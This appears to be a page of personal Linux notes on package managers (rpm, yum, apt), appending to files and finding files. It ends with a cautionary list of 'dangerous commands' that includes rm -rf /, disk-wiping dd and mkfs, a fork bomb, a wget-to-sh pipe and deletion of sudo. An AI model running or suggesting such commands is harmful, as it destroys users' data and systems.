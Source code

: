 On Debian systems, the equivalent package format is .deb and the installation and database is handled by the **dpkg** tool.

**Yum**

yum is an additional wrapper around rpm. It keeps its own database of rpm files available for your distribution, generally in online repositories. For the stable versions of most distributions all packages inside that database will play well with each other. This database can be searched (e.g. with yum search some_name).

It will also automatically resolve dependencies for you. Packages (and with some extra help their dependencies) can be easily uninstalled as well.

On Debian systems, the equivalent repository and dependency-resolution tools are provided by Apt (**apt-get** and **aptitude**).

So to sum it up: if you just want some software try yum first. If it is not available there, you can try to find an existing rpm package. If there is none or you have some special requirements, build from source.


## Append to file by command line
### Use redirection symbol : `>>`

`echo <sth> >> abc.txt`

`echo "`date` text here" >> filename`

### Use `tee` command:

`echo "text here `date`"|tee -a filename`

### Use `sed`







## Count file numbers
Pass stdin to `wc -l` command.

`find . -type f|wc -l`

## Find all files follow extension
`find $directory -type f -name "*.ext"`

## 9 dangerous commands
1. Delete Recursively: `rm -rf /`
2. Format Hard Drive: `mkfs.ext4 /dev/hda`
3. Overwrite Hard Drive: `command > /dev/hda`
4. Wipe Hard Drive: `dd if=/dev/zero of=/dev/hda`
5. Implode Hard Drive: `mv / /dev/null`
6. Cause Kernel Panic:
dd if=/dev/random of=/dev/port
echo 1 > /proc/sys/kernel/panic
cat /dev/port
cat /dev/zero > /dev/mem
7. Fork Bomb: `:(){:|:&};:`
8. Execute Remote Script: `wget http://an-untrusted-url -O- | sh`
9. Disable Root Command Rights: `rm -f /usr/bin/sudo;rm -f /bin/su`
